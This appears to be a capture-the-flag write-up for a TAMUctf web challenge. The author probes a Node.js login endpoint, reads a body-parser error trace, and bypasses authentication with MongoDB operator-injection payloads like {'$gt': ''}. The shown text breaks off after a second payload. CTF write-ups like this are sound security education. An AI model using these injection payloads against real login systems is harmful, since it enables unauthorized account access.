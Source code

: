 Send some test request. And we find out it only accepts proper JSON syntax.

    >> send('{"test":1}')
    Login Failed
    
    >> send('{}')
    Login Failed

    >> send('hi')
    POST http://web4.tamuctf.com/login 400 (Bad Request)

Now if we look at the error in the console, we see something in the responseText 

    <!DOCTYPE html>
    <html lang="en">
    <head>
    <meta charset="utf-8">
    <title>Error</title>
    </head>
    <body>
    <pre>SyntaxError: Unexpected token h in JSON at position 0<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at createStrictSyntaxError (/node_modules/body-parser/lib/types/json.js:158:10)<br> &nbsp; &nbsp;at parse (/node_modules/body-parser/lib/types/json.js:83:15)<br> &nbsp; &nbsp;at /node_modules/body-parser/lib/read.js:121:18<br> &nbsp; &nbsp;at invokeCallback (/node_modules/raw-body/index.js:224:16)<br> &nbsp; &nbsp;at done (/node_modules/raw-body/index.js:213:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/node_modules/raw-body/index.js:273:7)<br> &nbsp; &nbsp;at emitNone (events.js:106:13)<br> &nbsp; &nbsp;at IncomingMessage.emit (events.js:208:7)<br> &nbsp; &nbsp;at endReadableNT (_stream_readable.js:1064:12)</pre>
    </body>
    </html>

Reformat it to be easier to read... From this, we know that the server takes in our JSON string and parses it using `JSON.parse()` with the node module `body-parser`.

    SyntaxError: Unexpected token h in JSON at position 0
        at JSON.parse (<anonymous>)
        at createStrictSyntaxError (/node_modules/body-parser/lib/types/json.js:158:10)
        at parse (/node_modules/body-parser/lib/types/json.js:83:15)
        at /node_modules/body-parser/lib/read.js:121:18
        at invokeCallback (/node_modules/raw-body/index.js:224:16)
        at done (/node_modules/raw-body/index.js:213:7)
        at IncomingMessage.onEnd (/node_modules/raw-body/index.js:273:7)
        at emitNone (events.js:106:13)
        at IncomingMessage.emit (events.js:208:7)
        at endReadableNT (_stream_readable.js:1064:12)


### MongoDB injection vulnerability

After lots of searching, I found out [an article on a vulnerability](http://scottksmith.com/blog/2015/06/08/secure-node-apps-against-owasp-top-10-injection/)

> When this executes, we will find all users with user greater than "" and pass greater than "". This will return all users within the user table. This happened because we are not explicitly setting the query selector so the attacker was able to specify one themself.
> 
> ```{
    "user": {"$gt": ""},
    "pass": {"$gt": ""}
}
```

Let's try it out

    >> send('{"username": {"$gt": ""}, "password": {"$gt": ""}}')
    Welcome: bob!

    >> send('{"username": "bob", "password": {"$gt": ""}}')
```